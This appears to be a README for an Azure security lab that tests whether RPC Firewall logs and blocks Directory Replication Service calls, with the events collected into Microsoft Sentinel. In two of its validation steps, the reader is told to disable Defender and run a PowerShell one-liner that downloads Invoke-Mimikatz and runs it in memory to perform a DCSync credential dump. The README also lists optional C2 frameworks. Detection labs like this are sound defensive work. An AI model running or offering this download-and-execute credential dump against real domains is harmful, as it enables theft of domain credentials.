








# Windows 10 + Domain Controller + Windows Event Collector (WEC) + RPC Firewall Project 

[](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)
[](https://portal.azure.us/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
    * [Windows Security Events via AMA](https://docs.microsoft.com/en-us/azure/sentinel/data-connectors-reference#windows-security-events-via-ama) data connector enabled.
    * [Data collection rule (DCR)](https://docs.microsoft.com/en-us/azure/templates/microsoft.insights/datacollectionrules?tabs=json) to collect Windows Security events.
    * [Windows RPC Firewall parser](https://raw.githubusercontent.com/OTRF/Microsoft-Sentinel2Go/master/microsoft-sentinel/linkedtemplates/parsers/winRPCFWLogs.json).
* One Windows Active Directory domain (One Domain Controller)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [Windows Event Forwarding (WEF) client configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEF-Client.ps1).
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* One Windows Event Collector (WEC)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [WEC configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEC.ps1).
    * [Application Windows event subscriptions](https://github.com/OTRF/Blacksmith/tree/master/resources/configs/wef/subscriptions) deployed.
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
* Windows 10 Workstations (Max. 10)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [Windows Event Forwarding (WEF) client configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEF-Client.ps1).
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* [OPTIONAL] Command and Control (c2) options:
    * `empire`
    * `covenant`
    * `metasploit`
* Remote Access Restrictions (`AllowPublicIP` default option)
    * Access via Azure Bastion (Recommended. Additional costs applied)
    * Restrict Access to one Public IP Address (For example, Home Public IP Address)

## Validate Event Generation

1. RDP to DC01
2. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`



## Validate Event Collection

1. RDP to WEC01
2. Open Event Viewer and go to `Windows Logs` > `Forwarded Events`



3. In Event Viewer, go to `Subscriptions`



4. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel". You should see logs flowing 5-10 minutes after the deployment of the environment. Events will be available in the `WindowsEvents` table.



## Validate RPC Firewall Capabilities
### Monitor Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData` folder.
2. Validate that the following entry exists in the config file:

```
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:allow audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```

6. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`



### Block Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData` folder.
2. Validate that the following entry exists in the config file:

```
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 addr:127.0.0.1 action:allow
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:block audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```
4. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`



## Query Events in Microsoft Sentinel

1. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel".
2. Go to `logs`
3. There will be a function / parser already available for you to query RPC Firewall events:



4. Run a basic query to find the use of Directory Replication Services (DRS) in your environment:



## References:
* https://github.com/Cyb3rWard0g/WinRpcFunctions
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0
* https://github.com/zeronetworks/rpcfirewall
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410